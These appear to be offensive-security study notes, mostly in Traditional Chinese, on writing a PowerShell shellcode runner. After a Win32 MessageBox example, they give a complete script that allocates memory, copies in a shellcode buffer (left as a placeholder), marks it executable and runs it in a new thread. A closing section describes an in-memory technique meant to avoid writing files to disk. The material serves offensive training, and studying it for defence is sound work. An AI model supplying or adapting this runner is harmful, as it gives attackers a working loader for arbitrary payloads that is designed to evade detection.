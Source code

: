 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)
## Keep PowerShell in Memory
- Add-Type 關鍵字讓我們可以使用 .NET 框架來編譯 C# 包含 Win32 API 定義的呼叫的程式碼。
- 編譯過程是由 Visual C# 編譯器或 csc 執行，但這樣的行為，C#程式碼和編譯後的暫存檔案將會被臨時寫入硬碟中，就沒有達到無檔案的方式。
- 為了讓程式碼持續留存在記憶體中而不被寫入硬碟，必須改用UnsafeNativeMethods尋找已存在的函式直接調用
- 利用兩種函式**GetModuleHandle、GetProcAddress**尋找存在於 Win API 中的其他函式。
